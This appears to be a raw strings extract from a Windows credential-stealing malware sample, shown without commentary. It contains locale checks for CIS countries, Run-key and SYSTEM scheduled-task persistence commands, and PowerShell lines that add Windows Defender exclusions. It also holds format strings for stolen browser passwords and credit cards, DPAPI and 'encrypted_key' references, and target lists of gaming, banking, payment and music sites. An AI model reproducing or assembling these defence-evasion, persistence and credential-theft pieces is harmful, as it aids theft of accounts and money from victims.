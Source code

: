 ```
kk-KZ
ro-MD
uz-UZ
be-BY
az-Latn-AZ
hy-AM
ky-KG
tg-Cyrl-TJ
SOFTWARE\Microsoft\Windows\CurrentVersion\Run
System
cmd
/k start /b powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath 
 & exit
/k start /b powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionExtension .exe & exit
schtasks.exe
/create /tn {0} /tr "{1}" /sc MINUTE /mo {2} /ru "System" /F
/create /tn 
 /tr "
" /sc ONLOGON /ru "System" /F
TGgoods
{0}	{1}	{2}	{3}	{4}	{5}	{6}
Name: 

Value: 
Hostname: 

Username: 

Password: 

Browser: 
 v
 (
Number: {0}
Placeholder: {1}
Expiration: {2}/{3}
Browser: {4} v{5} ({6})
*.ldb
encrypted_key
DPAPI
roblox.com
steampowered.com
genshin
epicgames.com
fortnite.com
GAMES
qiwi
tinkoff
yoomoney
sberbank
BANK
facebook
FACEBOOK
funpay
paypal
americanexpress
amazon
MONEY
spotify
music.apple
MUSIC
```